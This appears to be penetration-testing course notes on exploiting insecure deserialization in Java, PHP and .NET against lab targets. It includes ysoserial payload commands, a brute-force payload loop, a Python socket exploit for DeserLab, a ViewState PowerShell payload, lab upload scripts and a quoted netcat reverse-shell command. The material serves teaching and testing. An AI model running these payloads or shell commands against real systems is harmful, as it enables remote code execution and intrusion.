

# Attacking Serialization


##### What is Serialization?

Serialization is the name of the mechanism that allows us to store the state of programmistic objects in a sequence of bytes in a reversible way. This way, an object (a variable, set of variables or even a whole class) can be transported remotely to another program.


The receiving endpoint should be able to reconstruct deserialize) the received object in an unchanged state.


Serialization is used widely in programming and can be used for

- Storing and transferring data
- Calling remote procedures (RPC like methods)


Serializing data is also often referred to as **marshalling** The reverse process of retrieving the original object out of a byte sequence is called **deserialization** or **unmarshalling**


It should be noted that serialized data itself is not encrypted or signed in any way. Often the data might be freely tampered with once spotted , which might bring unexpected results on the deserializing component.


Of course, there might be transport protocols that utilize serialization together with compression or encryption. So, serialized data might be hidden secured or encountered in a plain form. The last case is the most interesting for both penetration testers and attackers


Serialized objects are most often encountered in web applications written in PHP, Java and .N ET , but serialization is not limited to these languages only . For example, there were occurrences of remote code execution via deserialization in Python, Ruby and many other languages.


## Serialization in Java


the **ac ed 00 05** bytes, which is a standard java serialized format signature.


As java serialized data is in binary format, when used in web applications it is often encoded using Base64 in order to mitigate non ASCII bytes. When inspecting web application s for java serialized objects, you should also look for base64 strings starting with **rO0AB**


#### Properties and Reflection

An Object’s Properties in their simplest form are spotted in the format below:

- Object.one.two


Reading from right to left you can traverse the name and know that:

- Two is a property of one
- One is a property of Object


In the same way, if you see:

```java
Java.lang.Runtime.getRuntime.exec("id")
```

then you know that the method exec(„id”) is a property of getRuntime, which in turn is a property of Java.lang.Runtime. Such a notation will be often seen in Java code.


During deserialization, the object’s properties are accessed recursively, leading to code execution at the very end of this process . An opaque class order that allows chaining subsequent classes is possible thanks to [reflection](https://www.oracle.com/technical-resources/articles/java/javareflection.html), which allows us to use methods without knowing them previously. Reflection can be recognized by the "opaque" calling order in the code.


### Insecure Deserialization Conditions

When serializing and deserializing data, the deserializing endpoint must know (this means, it has to include in its **classpath** or **import**) all the classes and packages that the serialized object consists of.


Basically, attacking Java serialization is about passing the malicious state of an object to the deserializing endpoint.

Executing OS commands in Java could be done , for example, by invoking code like

```java
Java.lang.Runtime.getRuntime.exec("whoami")
```

But in order to make the deserializing endpoint execute the above code, it should be enclosed in a serialized object’s property.


A potentially exploitable condition in Java occurs when **readObject()** or a similar function is called on user controlled object and later, a method on that object is called.


An attacker is able to craft such an object containing multiple, nested properties, that upon method call will do something completely different, e.g. hijack the called method by implementing a [Dynamic Proxy](https://www.baeldung.com/java-dynamic-proxies) and an [Invocation handler](https://www.concretepage.com/java/dynamic-proxy-with-proxy-and-invocationhandler-in-java) in the serialized object’s properties.


### Gadgets

Every property or method that is part of a nested exploit object is called a **gadget** .


There are some specific Java libraries that were identified to contain some universal gadgets used to build serialized exploit objects. These libraries are called **gadget libraries**


The concept of gadgets w as first presented at the following [talk](https://frohoff.github.io/appseccali-marshalling-pickles/).

Note that deep understanding of manually building Java gadgets is an advanced skill that is not required to exploit most java deserialization vulnerabilities. However, it can come in handy when a custom library i s encountered, or patches have been applied.


There is a set of common libraries that were identified as **gadget libraries**.

This does not mean that they are insecure by design It only means that in case insecure deserialization is performed while these libraries are loaded into the classpath of the running application, the attacker can abuse them to construct a known gadget chain that will result in successful exploitation.


For example, common libraries that were identified as vulnerable are CommonsCollections (versions 1-6). There is
a powerful tool named [ysoserial](https://github.com/frohoff/ysoserial) that can be used to perform exploitation of insecure java deserialization vulnerabilities. Ysoserial contains multiple modules that can suit various J ava deserialization exploitation scenarios.


### Introduction to Ysoserial

Ysoserial can be downloaded, along with the source code and a precompiled .jar file. We will use the precompiled jar

Usage of ysoserial is quite straightforward. 

to display the help message.

```bash
java -jar ysoserial.jar
```


The Ysoserial payload is in binary format. Often you will need to convert the output to base64 in order to be able to send it to an application , as in the web application world binary data is often base64 encoded


```bash
java -jar ysoserial.jar CommonsCollections1 "whoami"
```

The command above generate s a serialized payload that upon being insecurely deserialized by an application that includes CommonsCollections1 in its classpath, will result in executing the command "whoami".


The payload names displayed in the help message are Library names that the gadgets will be taken from. If you suspect that the deserializing endpoint makes use of any of those libraries, you can use it.

Whoami is a versatile command that will work on both linux and windows systems, but in the case of a remote deserializing endpoint you will need to discover or guess the underlying OS yourself.


Ysoserial is the most common and the most versatile tool for generating java deserialization payloads. However, its usage is not the most convenient when assessing web applications due to being a command line script.

Several Burpsuite Pro extensions have been developed in order to make Java serialization detection and exploitation easier.

- [Freddy, Deserialization Bug Finder](https://portswigger.net/bappstore/ae1cce0c6d6c47528b4af35faebc3ab3)
- [Java Deserialization Scanner](https://portswigger.net/bappstore/228336544ebe4e68824b5146dbbd93ae)


**Note:** In Java versions 16 and above, you need to set a series of command-line arguments for Java to run ysoserial. For example:

```bash
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   [payload] '[command]'
```


#### Bruteforce Attack with Ysoserial

When approaching an application that utilizes serialized java data, we do not know what libraries are used by the back end.

In such a case, a brute force approach might be rewarding. You might want to generate all possible ysoserial payloads and then try each of them against the target software.


A brute force approach can be performed using a script similar to the below.

Assume that payloads.txt contains all ysoserial payload names one per line.

```bash
while read payload;
do echo -en "$payload\n\n";
java -jar ysoserial.jar $payload "whoami" | base64 | tr -d '\n' > payloads/$payload.ser;
echo -en "-----------------------------------------------\n\n"; 
done < payloads.txt
```

The script will run and create a base64 encoded serialized payload for each vulnerable library. T he result files can be further used in Burp Intruder attacks.


However, you might notice that some of the payloads cause yoserial to throw an error . This is because some payload names must be used in a specific way.


#### Exploring Ysoserial

In order to uncover hidden features of the ysoserial tool, we need to dive into its source code.

Each of the .java files can be run as a separate java class resulting in executing different code by the ysoserial tool.

For example, based on the names of the Java classes that ysoserial contain, we can infer what they were built for.

A jar file, the format in which ysoserial is shipped, is a regular zip archive that can be unpacked. Due to this feature of Java, it is possible to select and invoke a single method out of a jar archive.

In order to do that, we need to use the command line java utility with the `-cp (classpath)`

The classpath contains all locations where the java virtual machine will look for methods available for the process runtime. In that case, we need to specify the ysoserial .jar file as the classpath


The Java .jar archives have a package structure the package contain s subsequent packages.

In the case of ysoserial, the current package is named ysoserial, and inside the jar file there is a folder exploit that contains several classes. Each of these classes contain an exploit utility.


In order to use ysoserial/exploit/JSF.java, out of the classpaths , we need to issue the following command line:

```bash
java -cp ysoserial.jar ysoserial.exploit.JSF
```


The JSF payload can be used to attack serialization in Java Faces’ VIEWSTATE parameter. Keep in mind, that we omit the .java extension which is assumed by default by the java environment


#### Exploiting Java Deserialization

Now let’s try to analyze a simple java insecure deserialization vulnerability using [DeserLab](https://github.com/NickstaDB/DeserLab). In order to do
that, we will set up a vulnerable environment. We use Kali Linux as the host system, but you should be able to run the lab on any Linux machine.


First, let’s run the server and the client while sniffing the traffic using any network sniffing tool . We will use Wireshark on the Loopback interface.

```bash
──(root㉿kali)-[/home/…/Desktop/tools/ysoserial/DeserLab-v1.0]
└─# java -jar DeserLab.jar -server 127.0.0.1 6666
[+] DeserServer started, listening on 127.0.0.1:6666
[+] Connection accepted from 127.0.0.1:50324
[+] Sending hello...
[+] Hello sent, waiting for hello from client...
[+] Hello received from client...
[+] Sending protocol version...
[+] Version sent, waiting for version from client...
[+] Client version is compatible, reading client name...
[+] Client name received: karim
[+] Hash request received, hashing: test
[+] Hash generated: 098f6bcd4621d373cade4e832627b4f6
[+] Done, terminating connection.
```


We will also try to just connect to the endpoint with netcat using the below command

```bash
nc 127.0.0.1 6666
```


We can see that the server received our connection:


However nothing meaningful happened. Let’s try to use DeserLab’s client functionality to see if the connection will behave differently.

```bash
┌──(root㉿kali)-[/home/…/Desktop/tools/ysoserial/DeserLab-v1.0]
└─# java -jar DeserLab.jar -client 127.0.0.1 6666
[+] DeserClient started, connecting to 127.0.0.1:6666
[+] Connected, reading server hello packet...
[+] Hello received, sending hello to server...
[+] Hello sent, reading server protocol version...
[+] Sending supported protocol version to the server...
[+] Enter a client name to send to the server: 
karim
[+] Enter a string to hash: 
test
[+] Generating hash of "test"...
[+] Hash generated: 098f6bcd4621d373cade4e832627b4f6
```


Looking at the wireshark dump, we can see Java serialized data in the communication:


In order to avoid manual revision of all the packets sent, the tshark tool can be used to spot the beginning of the serialization stream.


##### Deciphering Serialized Data

First, let’s save the wireshark dump as deserialization.pcap

Using tshark, the whole serialiation stream can be extracted:

```bash
tshark -r deserialization.pcapng -T fields -e tcp.srcport -e data -e tcp.dstport -E separator=, | grep -v ',,' | cut -d',' -f2 | tr '\n' ':' | sed s/://g
```


You can inspect any Java serialized stream to identify the object it contains using the[ Java Serialization Dumper](https://github.com/NickstaDB/SerializationDumper) tool

You can build the tool using the supplied build.sh script. The tool’s u sage is straightforward , as the tool takes just a hex representation of serialized bytes and dumps the objects the byte stream consist s of. Let’s feed it with a freshly generated serialized stream from the previously mentioned pcap file.


```bash
┌──(root㉿kali)-[/home/kali/Desktop/tools/SerializationDumper]
└─# java -jar SerializationDumper-v1.14.jar aced00057704f000baaa77020101737200146e622e64657365722e4861736852657175657374e52ce9a92ac1f9910200024c000a64617461546f486173687400124c6a6176612f6c616e672f537472696e673b4c00077468654861736871007e0001787074000a74657374737472696e677400206436376335636266356230316339663931393332653362386465663565356638

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_BLOCKDATA - 0x77
    Length - 4 - 0x04
    Contents - 0xf000baaa
  TC_BLOCKDATA - 0x77
    Length - 2 - 0x02
    Contents - 0x0101
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 20 - 0x00 14
        Value - nb.deser.HashRequest - 0x6e622e64657365722e4861736852657175657374
      serialVersionUID - 0xe5 2c e9 a9 2a c1 f9 91
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 2 - 0x00 02
      Fields
        0:
          Object - L - 0x4c
          fieldName
            Length - 10 - 0x00 0a
            Value - dataToHash - 0x64617461546f48617368
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
        1:
          Object - L - 0x4c
          fieldName
            Length - 7 - 0x00 07
            Value - theHash - 0x74686548617368
          className1
            TC_REFERENCE - 0x71
              Handle - 8257537 - 0x00 7e 00 01
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
    classdata
      nb.deser.HashRequest
        values
          dataToHash
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 10 - 0x00 0a
                Value - teststring - 0x74657374737472696e67
          theHash
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 04
                Length - 32 - 0x00 20
                Value - d67c5cbf5b01c9f91932e3b8def5e5f8 - 0x6436376335636266356230316339663931393332653362386465663565356638   
```




The tool dumps every object that is contained within the serialized stream.

The simple netcat listener/client was not enough to start a "serialized conversation" since lots of serialized objects were sent to the target.

You might also want to study the source code of the tool to see where certain parts of the serialized stream were generated and sent.


##### Injecting Serialized Payload

We will build a simple python script that will mimic the initial serialized handshake (0xaced0005) and then replace the serialized data in this case the string hash with the ysoserial payload and hope for code execution

Based on the output of Serialization Dumper, part of the communication must be mimicked using python; it his includes the handshake, two TC_BLOCKDATA structures and the username.


Based on the output of Serialization Dumper, part of the communication must be mimicked using python ; t his includes the handshake, two TC_BLOCKDATA structures and the username.

Further down our exploit the hashed string will be replaced with serialized data originating from the ysoserial tool .

The final payload is generated using ysoserial, in this case the Groovy library is chosen since it is is utilized by DeserLab. The Groovy library can be found in DeserLab’s directory named "lib".

```bash
java -jar ysoserial-all.jar Groovy1 "ping 127.0.0.1" > p.bin
```

As you can see the payload contains the java serialization signature in the beginning. Since the serialized conversation is already started, we should remove it from the payload. That’s why in the exploit you will see the ysoserial payload being shortened by removing the first 4 bytes.


```python
import socket
ip = "127.0.0.1"
port = 6666
payload = "p.bin"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

data = '\xac \xed \x00 \x05' #Serialization handshake
s.sendall(data)

data = '\x77 \x04'
data2 = '\xf0 \x00 \xba \xaa' #TC_BLOCKDATA

s.sendall(data)
s.sendall(data2)

data = '\x77 \x02' #Protocol version
data2 = '\x01 \x01'
s.sendall(data)
s.sendall(data2)

data = '\x77 \x06' #depends on username 06 is string length +2
data2 = '\x00 \x04 \x74 \x65 \x73 \x74' #00 04 is string length, then 4 bytes T E S T
s.sendall(data)
s.sendall(data2)

f = open(payload, "rb") #ysoserial payload without first 4 bytes
c = f.read()
s.send(c[4:])
```

As previously mentioned , it contains all structures dumped by the SerializationDumper tool until the hashed string, which is replaced by the ysoserial payload without its first 4 bytes (aced0005)

Let’s now listen to any ICMP packets on the loopback (127.0.0.1) interface while attacking the DeserLab server using our freshly prepared exploit.


run the script

```bash
python serialization.py
```


We can observe that the server received the connection and ping was executed!


#### Analysis of URLDNS Payload

Let’s now analyze a simple ysoserial payload named **URLDNS**. The URLDNS payload does not result in code execution. Instead it makes the deserializing endpoint resolve an arbitrary DNS name ; t his is rather a low impact result of insecure deserialization, but on the other hand it uses Java built in features, so it is likely to work almost in every case . Consequently this payload allow s for easier confirm ation of insecure deserialization.

The full source code of the module can be seen [here](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)

Looking at the comments which explain the payload’s way of working, we can observe a gadget chain of 4 objects.

```java
Gadget Chain:
	HashMap.readObject()
		HashMap.putVal()
			HashMap.hash()
				URL.hashCode()
```

The HashMap.readObject() causes Java to instantiate the deserialized object upon successful deserialization. The hashmap contains a hashed URL object, which due to java built in mechanisms, will be arbitrarily resolved.

The serialized object to be sent to the target is crafted in the public method getObject that returns an Object (serialized payload)

HashMap is a Java data type that stores data in key value pairs. It is often used in deserialization exploits.


First, SilentURLStreamHandler is used in order not to resolve the URL upon creation of the serialized object. The "url" variable is the user supplied url to be resolved.

On line 55, a new HashMap is defined.

```java
HashMap ht = new HashMap();				 // HashMap that will contain the URL
URL u = new URL(null, url, handler);	 // URL to use as the Key
ht.put(u, url);			 //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
```

Then a data type java.net.URL is assigned to the hashmap to key "u".

Next, the hashCode of the URL is calculated. Upon deserialization, the URL in which the hashCode was calculated will be resolved resulting in arbitrary DNS resolution.


Let’s now generate a payload using ysoserial and attack DeserLab again.


##### Arbitrary DNS Resolution Exploit

The payload is generated to the p.bin file , which was previously used to execute ping.


If you are using Burp Suite Pro, you are free to use the Burp Collaborator Client in order to generate and catch DNS requests.

However, in the course we will go for the freely available proof of concept using the **DNSChief** tool.


**DNSChief** will be used as a simple DNS proxy. You can clone it from its GitHub repository [here](https://github.com/iphelix/dnschef)

Then, you need to add following line to your /etc/resolv.conf

```bash
nameserver 127.0.0.1
```


Then, start DNSChief and verify it is working properly by trying to, for example, ping a non existent domain:


As DNSchief is now set up, we’ll execute the exploit with the modified payload (p.bin) file and see if the lookup is performed.


URLDNS payloads can be used to detect deserialization issues before you can try to attack them with full RCE payloads.

Ysoserial payloads that result in code execution rely on similarly nested objects, however, they can be a lot more complicated and involve several objects and their properties.


#### Troubleshooting Ysoserial

You should be aware that there could be different reasons for the code execution payloads to fail when using ysoserial.

When attacking a serialization mechanism using ysoserial and aiming for code execution lots of exceptions might occur. In order to be able to confirm whether the application is secure or not, you should be familiar with the exception types that can be thrown during the attacking process.

Ysoserial is a blind exploitation tool , so apart from DNS resolution, knowing exception types might help in assessing a potential attack surface.

When attacking, you should be aware of where the exception come s from. Ysoserial itself prints verbose stack traces when used incorrectly.


When reading the stack trace, if you encounter a **ClassNotFoundException** , it is likely that the target application does not utilize the gadget library used by the ysoserial payload. You can then try to use a different payload that targets another library.

On the other hand, i f you encountered **java.io.IOException** with the message "Cannot run program", this is a good sign because your payload worked . However, the application you wanted to call is unavailable for some reason (e.g. it does not exist)


When telling ysoserial to create an RCE related payload , you should be aware of its limitations below.

- Output redirections and pipes are not supported
- Parameters to the command cannot contain spaces so while `nc lp 4444 -e /bin/sh` is ok, `python -c ‚import socket;…` will not work because the parameter import socket ) to Python contains a space.


#### Spotting Java Serialized Objects

We remind you that when assessing java based web applications , you should pay attention to binary data, especially if it starts with **"aced0005"** hex or **rO0aB** in base64 or looks like a list of java classes (e.g. "org.apache.something", "java.lang.String")

Presence of such data m ay indicate that the target application is deserializing custom data.


#### Recommended Reading

You can find more on exploiting Java Deserialization below.

- [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
- [Java Deserialization Exploits](https://github.com/Coalfire-Research/java-deserialization-exploits)
- [PayloadsAllTheThings Java Deserialization ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Java.md)
- [Triggering a DNS lookup using Java Deserialization](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)


## Serialization in PHP

In terms of exploitation, abusing control over PHP serialized objects is also called "PHP Object Injection".

It works in a similar way as Java deserialization - when the user has control over a PHP serialized object that is being sent to another deserializing endpoint, this fact may lead to unpredictable effects including Remote Code Execution.


PHP uses the **serialize()** and **unserialize()** functions to perform serialization and, like in Java, (de)serialization is used to store , transfer and transform whole objects. Unlike Java, PHP Serialization is in non binary format, looks similar to a JSON array and it is human readable.

A PHP serialized string looks like the below

```
O:6:"Abcdef":1:{s:9:"Something";s:6:"Active";}
```


PHP Serialized objects contain information about the type of object . This piece of information is necessary when reconstructing the object during deserialization. For example:

- Booleans are serialized as `b:<i>;` where i is 0 or 1 (True / False)
- Strings are serialized as `s:<i>:"<s>";` where i is the string length and s is the string itself
- Arrays are serialized as `a:<i>:{<elements>}` where i is an integer representing the number of elements in the array, and elements are zero or more serialized key value pairs of the following form `<key><value>`
- Objects (classes) are serialized as `O:<i>:"<s>":<i>:{<properties>},`, where the first `<i>` is an integer representing the string length of `<s>`, and `<s>` is the fully qualified class name
  - The second `<i>` is an integer representing the number of object properties , and `<properties>` are zero or more serialized name value pairs.
  - In the `<name><value>` pair , `<name>`is a serialized string representing the property name, and `<value>` is any value that is serializable.
  - Also, `<name>` is represented as `s:<i>:"<s>";` where `<i>` is an integer representing the string length of `<s>`.


The visibility of properties influence s the value of `<s>` in the following ways

- With public properties, `<s>` is the simple name of the property.
- With protected properties, `<s>` is the simple name of the property, prepended with `\0*\0` an asterix enclosed in two NUL L bytes (0x00)
- With private properties, `<s>` is the simple name of the property, prepended with `\0<s>\0`  — `<s>` and enclosed in two NUL L bytes , where `<s>` is the fully qualified class

You can find more on the PHP serialized data format [here](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html) and [here](https://www.geeksforgeeks.org/php-serializing-data/).

When assessing web applications, you might often encounter the PHP serialized data to be base64 encoded for transportation purpose s. Never leave any base64 data uninspected!

As you already know how to recognize PHP serialized data, the next step will be to learn the available exploitation strategies.

Unfortunately, PHP object injection is not as straightforward as its Java counterpart and depends heavily on the details of each vulnerability. Simply put, there is no ysoserial for php that gives you easy RCE. There are cases where the vulnerability will be easily exploitable and there will be cases when the vulnerability will require lots of creativity and effort.


Moreover, exploitation of PHP object injection relies heavily on how the unserialized data is further handled. Unserialized data is not necessarily used unless some **magic methods** are in place.

**Magic methods** are functions available to be used in PHP Object Oriented Programming. They are functions that are being launched dynamically once a certain trigger is present. They can be recognized in code by two underscores in the beginning of
their names, for example **__construct()**

The triggers for the PHP classes are:

- **__construct()** is loaded upon creating a new instance of a class
- **__destruct()** is loaded when no more references of a current class are present in memory
- **__wakeUp()** is loaded upon deserializing an object

You can read more about PHP magic methods [here](https://www.php.net/manual/en/language.oop5.magic.php)


```php
<?php

define('LOG', '/tmp/');
class DoLog
{
    private $filepath;
    public function __construct()
    {
    $this->filepath = LOG . "history.log";
    touch($this->filepath);
    }

    public function __destruct()
    {
     echo "<br><br>[+] Logfile " . ($this ->filepath) . "is being removed <br>";
     unlink($this->filepath);
    }

}
echo "<h1>PHP Serialization</h1>";
$log = new DoLog();
var_Export(serialize($log));
?>
```

What the snippet on the prior slide does is:

- Upon creating a new instance of the class, it creates a log file (default constructor)
- The file is then removed (default destructor)
- The file will also output serialized data about the created class object.

```bash
──(root㉿kali)-[/var/www/html/serialization]
└─# php index.php

<h1>PHP Serialization</h1>'O:5:"DoLog":1:{s:15:"' . "\0" . 'DoLog' . "\0" . 'filepath";s:16:"/tmp/history.log";}'
<br><br>[+] Logfile /tmp/history.log is being removed <br>
```


Let’s now modify the code by adding unserialization logic to it.

```php
<?php

define('LOG', '/tmp/');
class DoLog

    private $filepath;
    public function __construct()
    {
    $this->filepath = LOG . "history.log";
    touch($this->filepath);
    }

    public function __destruct()
    {
     echo "<br><br>[+] Logfile " . ($this ->filepath) . " is being removed <br>";
     unlink($this->filepath);
    }

}
echo "<h1>PHP Serialization</h1>";
$log = new DoLog();
$ser = serialize($log);
var_Export($ser);

// unserialize
$unser = unserialize($ser);
?>
```


Upon deserialization, the class’s magic methods will be run so that the file will be removed in the destructor function:

```bash
┌──(root㉿kali)-[/var/www/html/serialization]
└─# php index.php

<h1>PHP Serialization</h1>'O:5:"DoLog":1:{s:15:"' . "\0" . 'DoLog' . "\0" . 'filepath";s:16:"/tmp/history.log";}'
<br><br>[+] Logfile /tmp/history.log is being removed <br>
<br><br>[+] Logfile /tmp/history.log is being removed <br>PHP Warning:  unlink(/tmp/history.log): No such file or directory in /var/www/html/serialization/index.php on line 29
   
```

The program tried to remove the log file twice once upon the legitimate class instantiation and once upon the deserialization. Let’s now go further and try to delete


Keep in mind, that serialized data was passed in a variable in order to simplify the example. In the real world, such data often comes from other sources, for example HTTP request parameters.


Exploitation of such a vulnerability was possible because

- We had access to the source code, so we knew what the script exactly does
- We had access to the original serialized payload, so we knew what to alter in it
- The vulnerable function was implemented in the default destructor, so the data was used after the deserialization. There could be a case when data is unserialized but not used in an insecure manner.


##### PHP Deserialization Lab

- [PHP serialization](./assets/lab/serialize.php)
- [PHP deserialization](./assets/lab/unserialize.php)
- [PHP deserialization lab](./assets/lab/lab.php)


## .NET Serialization

### .NET Serialization Types

As with PHP and Java, .NET also has a serialization mechanism.

However, instead of using just one universal method like serialize(), it uses a few different mechanisms for serialization and de serialization of data. Data serialized using one of these mechanisms must be de serialized using the same one.


Saving the states of objects using serialization in .NET can be done using various methods F or example:

- BinaryFormatter
- DataContractSerializer
- NetDataContractSerializer
- XML Serialization


Each of these methods results in a different format of a serialized object ; for example, BinaryFormatter serializes data to a binary file, and data serialized using XML Serialized is in human readable, XML format.

Each of these serialization types is connected directly to certain supported objects and types. Usage of them is situational and connected to .NET internals. In this course, we will present a generic way to attack the .NET serialization using **ysoserial.net**, which is a versatile tool and a .NET equivalent of java’s ysoserial.jar


### .NET Serialization Example

To see that the serialization in .NET is very similar to other languages’ serialization logic, let’s look at a common .NET serialization mechanism called BinaryFormatter.

We will create a simple .NET console application for demonstration purposes.


The application serializes a string and writes the output to a file.

The file is in binary format, as per the name of the serialization logic.


After running the application we can inspect the serialized data in the file. Indeed, it i s in binary format.


### Spotting .NET Serialized Data

Thus, you can expect serialized .NET data encountered in web applications to be base64 encoded in order to conveniently send non ASCII characters in HTTP requests and responses.

A common, but not the only place where serialized data can be found is when data is sent in a **VIEWSTATE** parameter, or .NET remoting services.


.NET remoting services can be considered part of the web application world but they are also part of the infrastructure.

.NET remoting is the mechanics that allow sending pure .NET objects via TCP however depending on the application infrastructure, web applications may provide a layer of transport to supply data destined to a .NET remoting endpoint.

On the other hand, VIEWSTATE is a pure web parameter that is used in the majority of .NET web applications in order to persist the state of the current web page.

**VIEWSTATE** is the state of the page and all its controls. It is automatically maintained across the web application by the ASP.NET framework.


### VIEWSTATE

When a page is sent back to the client, the changes in the properties of the page and its controls are determined, and then they are stored in the value of a hidden input field named **_VIEWSTATE** .

With every other POST request, the **_VIEWSTATE** field is sent to the server together with other parameters.

The Viewstate has a form of serialized data which gets deserialized when sent to the serve r. Th is means, we can try to attack the deserialization mechanism. Let’s take a closer look on how this can be achieved.

Of course, the later the .NET framework on server side, the more countermeasures will be in place. It would be too easy if the framework would let the users freely tamper the content of VIEWSTATE.


The latest countermeasures against VIEWSTATE tampering are:

- MAC Enabled option -  the viewstate is signed with a cryptographic key known only by the server side. It is configured by the following setting/ option: 

  ```html
  <page enableViewStateMac="true"/>
  ```

  

- In web.config or "setting MAC validation in IIS manager", the latest .NET framework uses MAC validation by default.

However, if the key is hardcoded, it might be leaked as a result of file read vulnerabilities like XXE, File inclusion or similar.

It is also possible to encrypt the VIEWSTATE via configuring the web config to contain the following line:

```html
<page ViewStateEncryptionMode=”Always”/>
```

This can be done via the IIS management console as well.


Now, let’s send the request to Repeater and navigate to the "ViewState"


Burp displays information that MAC is not enabled; this should trigger our attention. In the Pro version of burp suite, such a case is automatically triggered as potential vulnerability.

Let’s try to generate a payload using ysoserial.net and put it into the viewstate parameter. The payload will perform a simple HTTP request, since this is the appropriate approach before trying more specific RCE payloads.

```cmd
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://127.0.0.1:9000/abcdabcdabcd"
```


As already mentioned, the later the .NET framework version, the more difficult it is to tamper with the viewstate.

If MAC validation is enabled, then it could be possible to exploit viewstate based deserialization only if the MAC key is hardcoded (e.g. in web.config).

Fortunately for IIS users, the current default settings of IIS are to generate the key at runtime, and it is different for each application.


You can read more about .NET viewstate deserialization in these great articles

- [Deep Dive into .NET ViewState deserialization and its exploitation](https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)

- [Exploiting ViewState Deserialization using Blacklist3r and YSoSerial.Net](https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net)


## Other Serialization

Serialization can be spotted in various places of web applications. In addition, each development language has its own deserialization logic and entry points/transportation mechanisms of serialized data.

Less popular language s will result in harder exploitation of deserialization vulnerabilities, since no automated tools, like ysoserial , will exist.

Also, as the aforementioned examples have indicated, deserialization of untrusted data does not necessarily lead to code execution.

Exploitability of untrusted serialized data might often rely on knowing libraries and functions available on the backend. For this purpose, open source software is your friend. You might often be able to view the full code of a target application on e.g. its github repository.

When looking for deserialization vulnerabilities, you should always pay attention to data that:

- Contain strings that are similar to method names or object names
- Contain binary data
- Is in a complex, structured form

Don’t forget that if the source code of the target software is available, you should inspect it for the presence of serialization related methods


Serialization is a language specific topic; thus we will not cover serialization in every language separately. Instead, you might want to check some resources on serialization in other languages and technologies in order to get better grasp on that subject.

Exploiting python based serialization issues is well described in these articles [here](https://intoli.com/blog/dangerous-pickles/) and [here](https://lincolnloop.com/insights/playing-pickle-security/)


Issues related to Ruby insecure deserialization are well described [here](https://blog.rubygems.org/2017/10/09/unsafe-object-deserialization-vulnerability.html)


there’s also a generic presentation that concerns all mentioned technologies [here](https://insomniasec.com/downloads/publications/Deserialization%20-%20%20What%20Could%20Go%20Wrong.pdf) .

Serialization was also issued in SnakeYAML some good writeups are available below:

- [SnakeYaml Deserilization exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)


----

### Labs

#### Lab1: Java Insecure Deserialization - Scenario 1

To get list of ysoserial payloads, one of the ways can be to copy ysoserial's output to a file, our is called yso.

```bash
mkdir payloads

cd payloads

java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar >yso  2>&1

cat yso | tr -d ' ' | cut -d "@" -f 1 > payloads.txt

sed -i -e '1,7d'  payloads.txt
```


Use the following command to generate payloads.

```bash
while read payloadname; do java -jar ../root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar $payloadname "ping 192.91.247.2 -c 3" > $payloadname; done < payloads.txt
```

It will need to take a list of payloads (we have them by name, we will shortly turn the list into a list of filenames). Moreover, the exploit will need to issue two requests one after the other - the "upload" one and immediately after it the "read file" one.

In the below examples we are using Python 3. Note we are accessing the target machine website so we need to use that IP address.

The "read file" request might look like the one below.

```python
def readfile(filename):
    url = "http://demo.ine.local/upload/index.php?sent=OK"
    r = requests.get(url)
    print("[+] Used filename: " + filename)
    print(r.text)
    print("\n")
```

Then, the "upload_file" request can be similar to the below.

```python
def upload(filename):
    url = "http://demo.ine.local/upload/upload.php"
    files ={'uploaded_file': open(filename, 'rb')}
    r = requests.post(url, files=files)
```


We will also need a list of all payload files by their name. Since each file is named after the payload, we can use the "yso" file again to generate a list (as we don't want to retype it manually).

```bash\
while read payload; do  echo \'$payload\', >> /root/p2.txt; done < payloads.txt
```


The list can be pasted directly into a Python program (the last comma after the last payload has to be deleted)

```python
payloads = [
'Wicket1',
'AspectJWeaver',
'BeanShell1',
'C3P0',
'Click1',
'Clojure',
'CommonsBeanutils1',
'CommonsCollections1',
'CommonsCollections2',
'CommonsCollections3',
'CommonsCollections4',
'CommonsCollections5',
'CommonsCollections6',
'CommonsCollections7',
'FileUpload1'
]
```

